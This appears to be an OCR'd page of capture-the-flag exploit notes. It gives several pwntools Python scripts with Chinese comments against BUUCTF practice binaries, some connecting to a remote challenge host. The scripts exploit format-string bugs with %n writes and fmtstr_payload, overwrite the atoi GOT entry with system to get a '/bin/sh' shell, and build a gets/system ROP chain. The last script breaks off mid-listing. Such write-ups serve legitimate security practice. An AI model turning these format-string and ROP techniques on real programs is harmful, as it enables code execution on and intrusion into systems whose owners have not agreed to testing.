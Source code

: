   * https://blog.csdn.net/weixin_63231007/article/details/125883680#t10
  * ```python
    from pwn import *

    p = remote("node4.buuoj.cn",28357)

    payload = p32(0x0804c044) + b'%10$n'
    # payload = fmtstr_payload(10,{0x804C044:0x4})  fmtstr_payload()是可用于格式化字符串漏洞的函数
    #pwntools自带的格式化字符串漏洞payload构建工具——fmtstr_payload
    p.recvuntil('your name:')  #与shell进行交互
    p.sendline(payload)
    p.recvuntil("your passwd:")
    p.sendline('4')
    p.interactive()
    ```
  * ```python
    from pwn import *
    io=process('./babyfmt')
    payload = p32(0x0804C044)+p32(0x804c045)+p32(0x804c046)+p32(0x804c047)
    payload += b'%10$n%11$n%12$n%13$n'
    io.sendline(payload)
    io.sendline(str(0x10101010))
    #gdb.attach(io)
    io.interactive()

    ```
  * ```python
    from pwn import *
    #io = process("./pwn")
    io = remote("node4.buuoj.cn",25946)
    elf = ELF('./pwn')
    atoi_got = elf.got['atoi']
    system_plt = elf.plt['system']
    payload=fmtstr_payload(10,{atoi_got:system_plt})
    io.sendline(payload)
    io.sendline(b'/bin/sh\x00')
    io.interactive()
    ```

  + ```python
     1 from pwn import *
      2 io=process("./pwn")
      3 #io=remote("node4.buuoj.cn",28381)
      4 io.recv()
      5 addr=0x0804c044
      6 #payload=p32(addr)+b"%10$n"//这里使用pwntools的fmtstr_payload和手动构造payload的效果是等同的
      7 payload=fmtstr_payload(10,{addr:4})                             
      8 io.sendline(payload)
      9 io.recv()
     10 io.sendline(b"4")
     11 io.interactive()                         
    ```
  + babyrop
  + ```python
    from pwn import *
    io=process('./babyrop')
    elf=ELF("./babyrop")
    io.recvuntil(b'advise?\n')
    sys=p32(elf.symbols['system'])
    gets=p32(elf.symbols['gets'])
    bss=p32(0x804A028)
    payload=b'a'*(0x28+4)+gets+sys+bss+bss
    io.sendline(payload)